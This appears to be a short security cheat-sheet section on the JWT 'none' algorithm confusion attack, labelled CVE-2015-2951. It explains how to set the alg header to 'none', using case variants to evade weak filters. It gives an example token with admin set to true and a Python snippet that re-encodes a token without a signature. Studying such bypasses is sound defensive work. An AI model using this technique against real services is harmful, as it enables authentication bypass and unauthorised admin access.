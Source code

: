 
---
### [ CVE-2015-2951 - 'none' algorithm confusion]
---

JWTs can be signed using a range of different algorithms, but can also be left unsecured. In this case, the JWT `alg` parameter is set to `none`, meaning the backend will not perform signature verification.

Due to the obvious dangers of this, secure servers usually reject tokens with no signature. 
However, the attacker might still have a chance to bypass weak filters ( string parsing ), using classic obfuscation techniques, such as mixed capitalization or unexpected encoding. (`NonE`, `nONE`... )

#### Example

```bash
[1] Token header values:
{
	 "typ" = "JWT"
	 "alg" = "HS256"
}

[2] We temper it with none:
{
	 "typ" = "JWT"
	 "alg" = "none" # 'NoNe', 'nONE' etc
}

 [3] Token payload values stay the same:
{
	 "flag" = "ladybug"
	 "name" = "inthemug"
	 "admin" = True
}

[4] By switching the algorithm to 'none' you ditch the signature and can gain the bypass.

```
---

* However, this won't work unless you **remove** the signature 

```bash
'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmbGFnIjoibGFkeWJ1ZyIsIm5hbWUiOiJpbnRoZW11ZyIsImFkbWluIjp0cnVlfQ.['deleted signature'] 

```

* Alternatively 

```python
decoded=jwt.decode(jwtToken, verify=False)  # need to decode the token before encoding with type 'None'
newtoken=jwt.encode(decodedToken, key='', algorithm=None)

print(newtoken.decode())

```
